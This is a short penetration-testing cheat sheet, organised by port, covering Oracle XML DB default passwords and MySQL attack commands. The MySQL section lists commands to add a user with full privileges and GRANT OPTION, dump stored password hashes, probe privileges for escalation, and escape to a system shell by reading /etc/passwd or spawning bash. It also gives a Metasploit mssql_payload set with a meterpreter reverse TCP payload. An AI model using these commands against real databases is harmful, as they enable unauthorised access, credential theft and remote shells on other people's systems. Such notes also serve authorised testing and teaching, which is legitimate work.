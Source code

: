 ## 2100 - Oracle XML DB

Default passwords:

[https://docs.oracle.com/cd/B10501\_01/win.920/a95490/username.htm](https://docs.oracle.com/cd/B10501\_01/win.920/a95490/username.htm)

## 3268/3269 - LDAP Global Catalog

## 3306 - MySQL

* [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) - A PowerShell Toolkit for Attacking SQL Server
  * [https://github.com/NetSPI/PowerUpSQL/wiki](https://github.com/NetSPI/PowerUpSQL/wiki)

{% tabs %}
{% tab title="Connect" %}
```
#mysql -h [IP] -u [username] -p
```
{% endtab %}

{% tab title="Administration" %}
```
#mysqlshow
#mysqlbinlog
```

### Create new user and grant priv

```
mysql>create user test identified by 'test';
mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
```

### Access passwords

```
mysql> use mysql
mysql> select user,password from user;
```
{% endtab %}

{% tab title="Priv Esc" %}
```
mysql>select user();
mysql>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
```


{% endtab %}

{% tab title="Break Into Shell" %}
```
mysql> \! cat /etc/passwd
mysql> \! bash
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```
{% endtab %}
